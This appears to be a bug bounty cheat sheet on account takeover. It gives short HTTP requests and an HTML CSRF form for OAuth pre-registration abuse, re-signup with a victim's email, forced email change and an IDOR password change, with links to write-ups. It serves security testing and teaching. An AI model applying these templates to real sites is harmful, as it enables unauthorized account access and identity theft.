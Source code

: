
## Introduction

[](https://github.com/daffainfo/AllAboutBugBounty/blob/master/Misc/Account%20Takeover.md#introduction)

Account Takeover (known as ATO) is a type of identity theft where a bad actor gains unauthorized access to an account belonging to someone else.

## How to exploit

[](https://github.com/daffainfo/AllAboutBugBounty/blob/master/Misc/Account%20Takeover.md#how-to-exploit)

- Using OAuth Misconfiguration
    
    - Victim has a account in evil.com
    - Attacker creates an account on evil.com using OAuth. For example the attacker have a facebook with a registered victim email
    - Attacker changed his/her email to victim email.
    - When the victim try to create an account on evil.com, it says the email already exists.
- Try re-sign up using same email
    
    ```
    POST /newaccount HTTP/1.1
    ...
    email=victim@mail.com&password=1234
    ```
    

After sign up using victim email, try signup again but using different password

```
POST /newaccount HTTP/1.1
...
email=victim@mail.com&password=hacked
```

via CSRF

- Create an account as an attacker and fill all the form, check your info in the Account Detail.
- Change the email and capture the request, then created a CSRF Exploit.
- The CSRF Exploit looks like as given below. I have replaced the email value to anyemail@*******.com and submitted a request in the victim’s account.

```html
<html>
<body>
   <form action="https://evil.com/user/change-email" method="POST">
      <input type="hidden" value="victim@gmail.com"/>
      <input type="submit" value="Submit Request">
   </form>
</body>
</html>
```

Chaining with IDOR, for example

```
POST /changepassword.php HTTP/1.1
Host: site.com
...
userid=500&password=heked123
```

1. 500 is an attacker ID and 501 is a victim ID, so we change the userid from attacker to victim ID
    
2. No Rate Limit on 2FA
    

References:

- [Pre-Account Takeover using OAuth Misconfiguration](https://vijetareigns.medium.com/pre-account-takeover-using-oauth-misconfiguration-ebd32b80f3d3)
- [Account Takeover via CSRF](https://medium.com/bugbountywriteup/account-takeover-via-csrf-78add8c99526)
- [How re-signing up for an account lead to account takeover](https://zseano.medium.com/how-re-signing-up-for-an-account-lead-to-account-takeover-3a63a628fd9f)


